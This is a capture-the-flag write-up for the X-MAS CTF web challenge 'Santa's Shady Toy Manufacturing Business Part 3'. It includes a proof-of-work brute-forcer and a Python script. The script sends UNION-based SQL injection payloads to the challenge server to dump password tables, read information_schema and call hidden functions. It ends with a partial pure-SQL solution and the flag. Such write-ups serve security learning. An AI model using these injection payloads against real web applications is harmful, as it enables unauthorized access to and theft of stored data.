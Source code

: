 # Santa's Shady Toy Manufacturing Business Part 3 (web 1491)

Upon trying to enter the database again with our new credentials, we encounter a (pretty solid) proof of work for each query. From now on, each query takes more time, so enumerating data one by one is no longer practical...

```py
import itertools
import hashlib
import string

def pow(salt, hashval):
    print("Solving pow, plz wait")
    table = string.ascii_lowercase

    for v in itertools.product(table, repeat=7):
        if hashlib.md5(salt.encode() + (''.join(v)).encode()).hexdigest()[:6] == hashval:
            return ''.join(v)

```

Upon checking the database, in the table `sql_torture_but_with_kind_explanations` we get an explanation of what we need to do:

```
Are you still alive? good. Because now the database gets insane. I had to quit my job over this, so good luck to the poor manager who supersedes me, haha. I'll still try to explain what we got here, just from the kindness of my heart. No need to thank me :) Basically, the painting contains a XOR Key, which you use to XOR every one of the management passwords. Then, every single xored management password is a parameter to its corresponding final_chunk function. These final chunks will tell you how to form a final password. You will then need to look into the final bitfield byte tables and build another final string, where every table is a character from that string (you can figure out the characters if you look at the column names :) ). Pass the final password and the final bitfield thing to the zip password getter. That's the password for the zip archive encoded in the same way as the final string. That's the zip where we store the juicy secrets, usually we have scripts for us that do all the busy work for us, but since you are a new manager I think IT hasn't had the time to send them to you. You'll need to write that yourself. Also, the entire database refreshes all the passwords once every few seconds, so you'd need to write everything in one query. Good luck! You need to be one MEAN SQL wizard to figure this shit out.
```

This text "explains" the objective of the challenge, but it hides a lot of details. The actual process we will need to follow ends up being this (some details of which can only be found when you finish the previous parts):

- Read the painting table to find an XOR key. The painting actually contains a 10-character key which needs to be ceaser ciphered with a number also given in the painting table. Fortunately, the keys are located at a constant position.
- XOR the resulting key with each password in the `management_passwords` table.
- Call `get_final_chunk_for_id_#` on each XORed management password. Each function returns a pair (index of the final chunk, character in that position).
- Combine the final chunks back in order.
- Read the final bitfiend and zip file from column names. There are 61 tables of the form `final_bitfield_byte_#` and 161 tables of the form `zip_file_byte_#`. Each table has columns of the form `bit_#_set` which correspond to set bits in the byte.
- Pass the final bitfiend and reassembled final chunk to the `get_zip_password` function.
- Read both the results. We can unzip the password later.

Because you could start multiple sessions, I ended up cheesing the challenge - preparing three sessions in advance and having each prepare a proof of work ahead of time such that 3 queries could be sent in one password refresh cycle. That way I could do the hardest work in Python, and each query just needed to dump all the data at once or call functions. The `GROUP_CONCAT` and `CONCAT_WS` functions are very useful for this.

Here is my script for this:

```py
from pow import pow
import requests
import json
import sys
import string

# Off Google
def caesar(text, step, alphabets):
    def shift(alphabet):
        return alphabet[step:] + alphabet[:step]
    shifted_alphabets = tuple(map(shift, alphabets))
    joined_aphabets = ''.join(alphabets)
    joined_shifted_alphabets = ''.join(shifted_alphabets)
    table = str.maketrans(joined_aphabets, joined_shifted_alphabets)
    return text.translate(table)

with open(sys.argv[1]) as f:
    ck1 = json.load(f)
with open(sys.argv[2]) as f:
    ck2 = json.load(f)
with open(sys.argv[3]) as f:
    ck3 = json.load(f)

x1 = []
x2 = []
for x in range(26, 36):
    x1.append("x%d" % (x))
    x2.append("x%d" % x)

x1 = ",".join(x1)
x2 = ",".join(x2)
q = "WITH cK as (SELECT CONCAT(x27,x28) as k FROM painting LIMIT 1 OFFSET 93), b as (SELECT %s FROM painting LIMIT 1 OFFSET 61) SELECT CONCAT(cK.k,'|',%s) as k FROM cK, b" % (x1, x2)
q = "WITH k as (%s), w as (SELECT GROUP_CONCAT(pass SEPARATOR '.') as z FROM management_passwords ORDER BY id ASC), y as (SELECT GROUP_CONCAT(CONCAT(COLUMN_NAME,',',TABLE_NAME) SEPARATOR '.') as y from information_schema.columns WHERE TABLE_NAME LIKE '%s' LIMIT 1) SELECT CONCAT_WS('|',k.k,w.z,y.y) FROM k, w, y" % (q, '%byte%')
q = "' AND 1=2 UNION SELECT (%s) UNION SELECT (1) WHERE '" % q
# print(q)

url = "http://challs.xmas.htsp.ro:3001/redirect.php"
def get_pow(c):
    chall = requests.get(url, cookies=c).text.split("'")
    salt = chall[4]
    target = chall[6]
    print(salt, target)
    sol = pow(salt, target)
    print(sol)
    return sol
p1 = get_pow(ck1)
p2 = get_pow(ck2)
p3 = get_pow(ck3)

input("waiting: ")

from pwn import xor
r = requests.post(url, data={"work": p1, "goto": q}, cookies=ck1, allow_redirects=False)
r = r.headers["Location"][1:-5]
with open("tmp", "w") as f:
    f.write(r)
caesar_key, xor_key, management_passwords, columns = r.split("|")
xor_key = caesar(xor_key, int(caesar_key), (string.ascii_lowercase, string.ascii_uppercase))
management_passwords = [xor(xor_key, p) for p in management_passwords.split(".")]
max_bf = 0
max_zp = 0
for c in columns.split("."):
    col, tab = c.split(",")
    if tab.startswith("get_zip_byte_"):
        i = int(tab.replace("get_zip_byte_", ""))
        if i > max_zp: max_zp = i
    if tab.startswith("get_final_bitfield_byte_"):
        i = int(tab.replace("get_final_bitfield_byte_", ""))
        if i > max_bf: max_bf = i
print(max_bf, max_zp)
final_bitfield = bytearray(max_bf+1)
zip_file = bytearray(max_zp+1)

for c in columns.split("."):
    col, tab = c.split(",")
    if col == "no_bits_set": continue
    if tab.startswith("get_zip_byte_"):
        i = int(tab.replace("get_zip_byte_", ""))
        #print('z', i)
        zip_file[i] |= 2**(int(col.split("_")[1]))
    if tab.startswith("get_final_bitfield_byte_"):
        i = int(tab.replace("get_final_bitfield_byte_", ""))
        #print('f', i)
        final_bitfield[i] |= 2**(int(col.split("_")[1]))

print(xor_key)
print(management_passwords)
print(final_bitfield)
print(zip_file)

pws = []
for i in range(60):
    pws.append("get_final_chunk_for_id_%d(UNHEX('%s'))" % (i, management_passwords[i].hex()))
pws = ",".join(pws)
q = "CONCAT_WS('|', %s)" % pws
q = "' AND 1=2 UNION SELECT (%s) UNION SELECT (1) WHERE '" % q
# print(q)
r = requests.post(url, data={"work": p2, "goto": q}, cookies=ck2, allow_redirects=False)
password = r.headers["Location"][1:-5]
print(password)

final = [None] * 60
for chunk in password.split("|"):
    p, s = eval(chunk)
    final[p] = s
final = "".join(final)

q = "SELECT get_zip_password('%s', UNHEX('%s'))" % (final, final_bitfield.hex())
q = "' AND 1=2 UNION SELECT (%s) UNION SELECT (1) WHERE '" % q
# print(q)
r = requests.post(url, data={"work": p3, "goto": q}, cookies=ck3, allow_redirects=False)
# print(r)
print(r.headers["Location"])
```

## Partial "real" solution
I did put together a good part of a real solution but I lost interest on assembling the string XORs. On MySQL, you can XOR binary type strings together of any length but not in MariaDB which the server is running.

Here is what I had (... is repeated stuff):
```sql
WITH c AS (
    WITH x AS (
        WITH l AS (
            WITH w as (
                WITH cK as 
                (SELECT (ORD(x27)-48) as k FROM painting LIMIT 1 OFFSET 93), b as (SELECT ORD(x0) as x0, ... FROM painting LIMIT 1 OFFSET 61)
                SELECT CONCAT(CHAR(IF(b.x%d+k>122,b.x%d+k-26,IF(b.x%d>90,b.x%d+k,IF(b.x%d+k>90,b.x%d+k-26, ...) as k FROM cK, b"
            SELECT CAST(CONCAT(q,q,q,q,q,q,q,q) AS BINARY) as k FROM w
        )
        SELECT CAST(SUBSTRING(k FROM 1 FOR CHARACTER_LENGTH(pass)) ^ CAST(pass AS BINARY) AS CHAR) FROM management_passwords CROSS JOIN l ORDER BY id ASC
    )
    SELECT get_final_chunk_for_id_0(SELECT k from x LIMIT 1 OFFSET 0) as p FROM x
    UNION ALL
    SELECT get_final_chunk_for_id_1(SELECT k FROM x LIMIT 1 OFFSET 1) FROM x
)
SELECT get_zip_password(CONCAT(SELECT SUBSTRING(p FROM 4 FOR 1) FROM c WHERE SUBSTRING(p FROM 1 FOR 2) = '1,', ...), final_bitfield) FROM c
```

## Flag
`X-MAS{w00_w3_f1n4lly_d1d_1t!__w3_wr0t3_4_pr0gr4m_1n_SQL!!_41c2chc1}`
